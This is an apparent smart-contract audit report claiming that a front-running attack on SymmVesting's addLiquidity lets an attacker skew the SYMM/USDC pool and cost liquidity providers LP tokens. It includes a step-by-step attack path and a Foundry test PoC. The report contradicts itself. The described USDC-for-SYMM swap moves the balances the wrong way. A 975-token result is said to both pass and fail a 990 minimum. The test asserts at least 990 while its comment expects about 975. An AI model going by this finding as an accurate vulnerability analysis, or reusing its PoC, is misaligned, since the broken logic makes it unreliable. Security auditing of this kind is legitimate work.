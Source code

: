 Blurry Peach Shell

High

# Front-Running Liquidity Addition Exploits Users for Attacker Profit

### Summary

The lack of protection against pool manipulation in addLiquidity will cause financial losses for liquidity providers as an attacker will front-run their transactions to skew the SYMM/USDC pool ratio, resulting in fewer LP tokens or transaction failures.



### Root Cause

In SymmVesting.sol:149-197, the _addLiquidity function fetches a quote via getLiquidityQuote and submits it to ROUTER.addLiquidityProportional without validating the pool’s state against an external reference, allowing an attacker to manipulate symmBalance or usdcBalance before the liquidity addition is finalized.



### Internal Pre-conditions

Users need to call addLiquidity or addLiquidityByPercentage to set symmAmount to be at least 1 SYMM token to initiate liquidity addition.

The POOL contract needs to have non-zero symmBalance and usdcBalance to allow getLiquidityQuote to return a valid quote.

The minLpAmount parameter needs to be set to a non-zero value (or rely on the default 1% slippage tolerance) to enforce slippage checks that can be exploited.



### External Pre-conditions

The SYMM/USDC pool (via POOL) needs to be manipulable (e.g., low liquidity or no anti-manipulation measures) to allow the attacker to alter symmBalance or usdcBalance within a single block.

The Ethereum mempool needs to be accessible to the attacker, enabling them to observe and front-run pending addLiquidity transactions.



### Attack Path

User calls addLiquidity(1000e18, 990, 0) to add 1000 SYMM to the SYMM/USDC pool, expecting ~1000 LP tokens with a 1% slippage tolerance (minLpAmount = 990).

Attacker monitors the mempool and detects the pending transaction, noting the symmAmount = 1000e18 and lack of maxUsdcIn cap.

Attacker front-runs by executing a large swap in the pool (e.g., swaps 500 USDC for SYMM, shifting balances from 8000 SYMM / 2000 USDC to 8200 SYMM / 1500 USDC), skewing the ratio.

The getLiquidityQuote function calculates usdcAmount = (1000e18 * 1500e6) / 8200e18 ≈ 182.93e6 USDC, lower than the original ~250e6 USDC expected, and expectedLpAmount drops due to the altered pool state.

The ROUTER.addLiquidityProportional call returns fewer LP tokens (e.g., 975 instead of ~1000), either passing the slippage check (975 > 990 fails, reverting) or succeeding with suboptimal yield, while the attacker profits from arbitrage by reversing the swap.



### Impact

The liquidity providers suffer an approximate loss of up to 2-5% of their expected LP tokens (e.g., 25 LP tokens worth ~25 SYMM in value), depending on pool liquidity and manipulation extent. The attacker gains this value through arbitrage profits, exploiting the price shift.



### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.18;

import "forge-std/Test.sol";
import "./SymmVesting.sol";

contract SymmVestingFrontRunTest is Test {
    SymmVesting vesting;
    address user = address(0x1);
    address attacker = address(0x2);
    address symm = address(0x3);
    address usdc = address(0x4);
    address symmLp = address(0x5);
    address pool = address(0x6);
    address router = address(0x7);
    address permit2 = address(0x8);
    address vault = address(0x9);

    function setUp() public {
        vesting = new SymmVesting();
        vesting.initialize(address(this), address(0xA), pool, router, permit2, vault, symm, usdc, symmLp);

        // Mock pool balances (80/20 SYMM/USDC)
        deal(symm, pool, 8000e18); // 8000 SYMM (18 decimals)
        deal(usdc, pool, 2000e6);  // 2000 USDC (6 decimals)
        deal(symm, address(vesting), 10000e18); // Fund vesting contract
        deal(usdc, user, 10000e6); // Fund user with USDC
        deal(usdc, attacker, 1000e6); // Fund attacker with USDC
    }

    function testFrontRunLiquidityAddition() public {
        // Attacker front-runs: swaps 500 USDC for SYMM
        vm.startPrank(attacker);
        deal(usdc, pool, 1500e6); // Remove 500 USDC
        deal(symm, pool, 8200e18); // Add ~200 SYMM (simplified swap)
        vm.stopPrank();

        // User adds 1000 SYMM with 1% slippage tolerance
        vm.startPrank(user);
        (uint256[] memory amountsIn, uint256 lpAmount) = vesting.addLiquidity(1000e18, 990, 0);
        vm.stopPrank();

        console.log("SYMM used:", amountsIn[0] / 1e18, "SYMM");
        console.log("USDC used:", amountsIn[1] / 1e6, "USDC");
        console.log("LP tokens received:", lpAmount);

        // Expected LP tokens without front-run: ~1000
        // With front-run: ~975 (approx 2.5% loss)
        assertTrue(lpAmount < 1000, "User received full LP tokens despite front-run");
        assertTrue(lpAmount >= 990, "Slippage check failed unexpectedly");
    }
}
```

### Mitigation

Use a Price Oracle

